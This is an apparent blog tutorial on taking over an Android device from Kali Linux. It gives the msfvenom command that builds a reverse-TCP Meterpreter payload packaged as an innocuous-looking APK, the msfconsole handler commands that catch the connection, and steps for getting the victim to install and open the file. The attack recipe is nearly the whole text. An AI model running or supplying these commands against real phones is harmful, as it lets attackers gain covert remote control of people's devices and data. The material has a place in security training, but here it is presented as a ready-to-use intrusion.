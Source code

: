 Exploiting Android using Kali Linux 

 Hello everyone, this blog is related to exploiting Android system using Kali Linux.

So, basically we need two operating systems, First one is kali(attacker) and second one is Android(victim).

This Practical works when both of the machines are in same network.

So. I have installed Kali-linux in Virtualbox and I am using Genymotion for Android.
And I have managed to put the both machines on same network, you have to do same if you are also trying to do same as me. Otherwise Important is both the machines has to be on same network,
This also works if you have host machine kali and on other side you have Android Device with you.

You can also install kali on Virtualbox and set it to NAT network.

For surety u can ping the Android Device machine from Kali to check that the machines are on same network or not.

Practical Starts Here - 

1. go to kali terminal and type the following command.
 type your kali ip instead of 170.9.210.105

msfvenom –p android/meterpreter/reverse_tcp LHOST=170.9.210.105 LPORT=4444 R> ~/Desktop/Danny.apk





2. Now the Danny.apk file was generated on desktop.
3. Type following Commands in terminal.(don't close the terminal window after executing last command)
 type your kali ip instead of 170.9.210.105

   msfconsole



   

   use multi/handler
   set PAYLOAD android/meterpreter/reverse_tcp
   set LHOST 170.9.210.105
   set LPORT 4444
   exploit






4.Now Manage to move that Danny.apk file from your kali to Android Device.
Follow the below steps - 



5. Tick all the options and click install





6. After installing just click it once






7. after execution of that file, you will see that the kali got the session,
You will see the following message.






Now you can control the Android Device from meterpreter.
     I am writing command sys info, this command show me the system info of that system,




    there are bunch of more commands available here, you can see them by typing help.
Thats it You are in that System.



Thank You 
Arpit Panchal...
